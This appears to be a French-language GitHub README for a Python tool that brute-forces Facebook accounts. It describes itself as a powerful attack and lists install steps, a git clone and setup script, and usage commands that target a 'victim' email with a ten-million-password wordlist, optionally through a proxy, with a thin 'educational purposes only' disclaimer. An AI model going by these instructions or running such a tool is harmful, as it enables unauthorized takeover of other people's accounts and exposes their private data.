 Piratage Facebook

![image](https://i.postimg.cc/QMcxCKJ4/file-00000000232c61fd91fb311b1688247b.png)
###### Puissante attaque par force brute sur Facebook.
***
### <p align="center">Commandes pour exécuter l'outil dans votre terminal Termux et Kali Linux
***

```bash
Remarque : Cet outil est conçu à des fins éducatives uniquement.
Veuillez ne pas endommager les appareils de qui que ce soit.
C'est pour juste testée, pas pour se venger.
 by rebelle masque 
```
## Langage utilisé pour créer cet outil :
- Python

## L'outil est compatible avec :
- Windows
- Kali Linux
- Android~Termux
- macOS
- Tous les systèmes d'exploitation utilisent Python (2.x, 3.x) avec les modules requis.

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/RebelleMasque/Facebook_force-bruit-spy.git
```
```bash
cd Facebook_force-bruit-spy
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## Utilisation :
- **Vous pouvez utiliser Victim Adresse e-mail ou identifiant de profil Facebook** :

- **Force brute sur un compte Facebook sans proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt

- **Force brute sur un compte Facebook avec proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129

- **Obtenir l'identifiant de profil Facebook cible** :

* **Commande** : python facebook_hack.py -g https://www.facebook.com/exemple
